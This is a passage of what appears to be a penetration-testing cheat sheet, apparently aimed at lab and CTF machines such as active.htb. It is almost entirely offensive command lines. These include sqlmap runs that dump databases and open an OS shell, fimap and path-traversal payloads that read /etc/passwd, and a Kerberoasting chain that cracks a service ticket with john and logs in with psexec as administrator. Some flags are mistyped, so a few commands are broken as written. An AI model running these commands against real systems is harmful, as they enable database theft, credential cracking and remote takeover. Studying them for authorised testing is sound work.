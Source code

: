     ```bash
    sqlmap -r FILENAME --level=5 --risk=3 --batch
    sqlmap -r FILENAME -dbs --level=5 --risk=3 --batch

    sqlmap -r FILENAME --dbs #enumarate DB's
    sqlmap -r FILENAME -D DB_Name --tables #enumarate tables
    sqlmap -r FILENAME -D DB_Name -T TABLE_Name --dump #DUMP table

    #Find SQL in webpage url automatically
    sqlmap -u https://IP/ –crawl=1

    #with authentication
    sqlmap -u “http://target_server” -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password

    #Get A Reverse Shell (MySQL)
    sqlmap -r post_request.txt --dbms "mysql" --os-shell
    ```

- [fimap](https://github.com/kurobeats/fimap) - Check for LFI, find, prepare, audit, exploit and even google automatically for local and remote file inclusion

    ```bash
    ~/tools/fimap/src/fimap.py –H –u http://target-site.com/ -w output.txt
    ```

    If we see in burpsuite php$url= we need to test for LFI (try /etc/passwrd)

    ```bash
    http://$ip/index.php?page=/etc/passwd
    http://$ip/index.php?file=../../../../etc/passwd
    ```

## if a page redirects to another, we can use burp to stop

```bash
Proxy -> Options -> Match and Replace
```

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled.png)

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%201.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%201.png)

## kerberos (88):

```powershell
tel#add host to /etc/hosts
sudo gedit /etc/hosts

./GetUserSPNs.py -request active.htb/SVC_TGS > admin.txt
#the password we will get will be encrypted
john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt

#with the cracked password...
psexec.py administrator@active.htb
```
